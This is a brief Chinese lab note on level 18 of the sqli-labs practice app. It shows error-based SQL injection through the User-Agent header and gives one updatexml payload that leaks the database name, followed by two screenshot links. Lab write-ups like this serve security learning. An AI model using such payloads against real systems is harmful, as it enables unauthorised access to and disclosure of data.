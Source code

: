 title: sql-labs 18关

less-18——基于’的`User-Agent:`报头文报错注入

注入语句：',1,updatexml(1,concat(0x7e, database(),0x7e),1))#

![image-20220330103739871](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20220330103739871.png)

![image-20220330103749270](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20220330103749270.png)